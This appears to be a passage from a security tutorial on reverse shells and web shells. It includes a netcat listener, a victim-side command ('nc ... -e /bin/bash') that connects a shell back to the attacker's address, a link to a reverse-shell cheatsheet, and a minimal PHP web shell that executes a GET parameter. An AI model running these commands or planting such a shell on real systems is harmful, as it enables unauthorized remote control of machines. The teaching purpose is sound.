 ![image](https://hackmd.io/_uploads/r1mxR7Guke.png)

On the attacker's machine (in this case, running Kali Linux), we need to open a listening port that will be ready to accept incoming connections. In this example, we will open port 4444 to allow any machine to connect to it. The following command is used to start the listener on the Kali Linux machine:

`nc -lvnp 4444`

![image](https://hackmd.io/_uploads/rkcBT7zdJx.png)

Now that the attacker's machine is ready to receive a connection, we need to make the victim machine connect to it. On the victim machine (which we assume is running Debian OS with the IP address 192.168.1.21), we will execute the following command to initiate the reverse shell:

`nc 192.168.1.8 4444 -e /bin/bash`

![image](https://hackmd.io/_uploads/S1oXC7fdyl.png)

As soon as this command is executed, the attacker gains a fully interactive shell on the victim’s machine, allowing them to execute commands remotely. More payloads to open TCP port to listen and connect are available on this link : 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

In addition to Netcat, other tools or languages like Python, Bash, and Perl can be used to establish a reverse shell connection. If Netcat is not available on the victim machine, you can use a Python script to achieve the same result. Here is an example of a reverse shell using Python:

![image](https://hackmd.io/_uploads/B1phCXGdke.png)

### Web shell

Web shell is a type of shell that be used on a web for some purposes related to system file, etc. That also allows an attacker to execute commands on a web server through a web application. This is often the result of an improperly secured web server or application that fails to properly sanitize user inputs. Web shells can be used by attackers to remotely execute arbitrary commands on the server, which can lead to full system compromise if the server is not well-secured.

![image](https://hackmd.io/_uploads/Sy_T_XMO1g.png)

For example, consider a basic PHP script hosted on a vulnerable web server that accepts a GET request and executes a Linux command provided by the user. The code might look something like this:

```php
<?php

echo "Your command : " . $_GET["cmd"] . "\n";

echo "Result : " . system($_GET["cmd"]);

?>
```
